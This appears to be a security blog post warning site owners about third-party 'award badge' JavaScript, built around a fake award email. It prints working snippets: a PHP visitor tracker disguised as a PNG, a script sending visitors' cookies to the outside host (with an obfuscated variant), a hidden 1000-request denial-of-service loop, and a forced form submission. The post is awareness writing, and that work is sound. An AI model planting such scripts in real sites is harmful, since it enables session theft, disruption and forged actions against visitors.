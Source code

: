 ```yaml
---
layout: post
title: 'The very bad things that Javascript can do: Part 2'
tags:
- html
- javascript
- security
---
```


In part 1, I discussed the various arguments I run into about wanting to be overly security conscious with our sites in regard to third party javascript. In this entry, we’ll run through a few scenarios.

In our scenarios here, we’re going to focus on a fake award site called “AwardSite” that gave our victim a winning notification. They are in the top 5% of 2013’s best websites. The servers have PHP and are apache servers.

Perhaps they send an email like this:


    Hello and congratulations!  Your site, http://victimsite.com, has won the prestigious Best of 2013 award from AwardSite.com!  
     
    Did you know you made it into the top 5%?  We're impressed, and you should be proud!
     
    Below, you'll find a snippet of code to insert into the footer of your website.  It shows off your great accomplishment.
     
    Did you know AwardSite.com has a very high Search Engine Optimization ranking?  We're already linking to your website -
    but that doesn't complete the circle.  If you use the banner in the code below, you not only show off your reputation this year but that reciprocal link helps Google AND Bing rank your site even higher.
     
    Congratulations again!
     
    Fake Guy
    AwardSite.com


And of course, at the very end of the email is some HTML or Javascript that they are prompted to put into their site.

Now, for our example, we’re going to use the following banner:

![](/uploads/2013/award.png)


Now, lets run through some scenarios.



### Hit Counter / Target Determination

In this case, the nefarious hacker wants to determine if this site has a lot of traffic. And, of that traffic, they want to determine what the demographics of the browsers are. This is a very easy information gathering attempt. This is what the code looks like:

```html
<a href="http://awardsite.com"><img src="http://awardsite.com/award.png?compress=134"></a>
```

Let’s break down what the code means, and then show the back-end. First, it is just a link to the awardsite website. The image is the banner that you saw above. Finally, that image has a pretty non-conspicuous get parameter called ‘compress’ which is set to the ID in the database of this particular victim site. It was important to use a word that SEEMED somewhat legitimate. Of course compress seems ok, so why would I judge that?

On the server, however, the file award.png is actually a PHP file. The apache server has configuration, perhaps in the .htaccess file, like this:

    <Files award.png>
        ForceType application/x-httpd-php
    </Files>

Then, the award.png file has the following PHP. (Please note, I’ve not went to the trouble to make sure this handles EVERY scenario… this is meant as a proof of concept).

Note: updateSite() is a function that writes an entry to the database using that siteID. I didn’t think it was important enough to show that code too.

```php?start_inline=1
$siteID = isset ($_GET['compress']) ? $_GET['compress'] : null;
 
if ($siteID) {
    $header = isset($_SERVER['HTTP_USER_AGENT']) ? $_SERVER['HTTP_USER_AGENT'] : '';
    updateSite($siteID, $header);
}
 
header('Content-type: image/png');
readfile('sourceawardfile.png');
```

This code basically gets the siteID from the GET query. It then grabs the user agent and inserts that into the database with the siteID. This works as a hit-counter and a demographics tracking. The backend will have to have some sort of analytic processing software to determine which browsers are visiting, etc.

No matter if there’s a valid siteID or not, finally the png header gets sent and the real award file is sent to the browser.

In this case, our victim has allowed the “bad guy” to keep track of their visitors, times, and demographics. They can now determine if this is a high traffic site or not – and whether its worth targeting specifically with more sophisticated attacks.

### Cookie Stealing / Session Theft

PHP stores the session key as a cookie on the visitors browser named PHPSESSID by default. If the hacker had this cookie, and the session hadn’t expired, they could act as the victim. The goal here is to have a logged in user of victim website visit the bad Javascript. Then, the cookie is sent to the hacker who then uses that to steal the session of the victim.

Here is the source code for the HTML/Javascript from the email:

```html
<a href="http://awardsite.com" id="awardlink">
    <script>
        var i = new Image();
        i.src = 'http://awardsite.com/award.png?c=' + document.cookie;
        document.getElementById('awardlink').appendChild(i);
    </script>
</a>
```

Here, a new image is created. Then, it is sent to the award.png PHP file. In this case, we grab the entire document.cookie. The cookie can then be parsed from the string of the GET parameter. Finally, the image is added to the file and no one is the wiser.

Of course, this kind of can look a bit bad if you see the words ‘document.cookie’ – so we can obscure this a bit. Try this:

```javascript
var s = 'http://awardsite.com/award.png';
var i = new Image();
var _0xba4e=["\x63\x6F\x6F\x6B\x69\x65"];
var j=document[_0xba4e[0]];
i.src = concat(s,'?c=', j);
document.getElementById('awardlink').appendChild(i);
```    
        
Of course, it can look bad for our trained eyes… but for those who don’t “work on computers” they’ll just think its code they don’t understand and use it.

**For future examples, I won’t show how to obfuscate the code. But that would be one of the steps.**

### Denial of Service for Victim Site

What if we could make the visitor perform a denial of service? That wouldn’t be that hard.

```html
<a href="http://awardsite.com" id="awardlink">
    <script>
        var s = 'http://awardsite.com/award.png';
        var i = new Image();
        document.getElementById('awardlink').appendChild(i);
        setTimeout(function() {
            for (var x = 0; x < 1000; x++) {
                var j = new Image();
                j.style = 'display: none';
                j.src = 'http://victimsite.com/someasset.php';
                document.body.appendChild(j);
            }
        }, 3000);
    </script>
</a>
```

In this case, the image is added successfully. However, the setTimeout() method executes a different function 3 seconds later. The delay is so that the user won’t notice the delay in their browser (hopefully the entire site has loaded by then) – and it puts it in the background. Then, a new ‘image’ is created 1000 times and appended to the document – with a hidden display (so the visitor can’t tell). But, basically, one visitor to this site, especially if they spent some time just reading the content, loaded 1000 more requests than were necessary.

### Processing Actions as the Victim

We all know that we need to not have forms that submit with the method of GET if the action is something that adds/edits/updates information. This restricts me from creating a sample that uses the Image() object to load a fake form submission with GET parameters. However, it doesn’t stop us from submitting a form that MAY be on the current page.

```html
<a href="http://awardsite.com" id="awardlink">
    <script>
        var s = 'award.png';
        var i = new Image();
        i.src = s;
        document.getElementById('awardlink').appendChild(i);
        var f = document.getElementById('formID');
        f[0].value = 'Some Nefarious Input';
        f.submit();
    </script>
</a>
```

This code goes and gets the form with an ID of ‘formID’ and populates the first element with some bad information. Then it clicks submit.

This is bad, but there are some potential problems. What if… the form doesn’t have an ID? Remember, we could also do some research, determine this is the second form on the page, and substitute the following:

```javascript
var f = document.forms[1];
```


OK, but lets just say its distracting to the visitor when the form is submitting. It takes them away from what they’re doing – of course they’re going to report it. Well, we can force the form to be ajax, and then submit.

```javascript
f.onsubmit = function() {
    //code to create xmlhttprequest and send form as ajax
};
f.submit();
```

### So what does all this mean?

Now that you’ve seen the examples of what can happen, I hope it turns on a light that we need to be more vigilant about what we allow clients to put into your hosted applications.


        
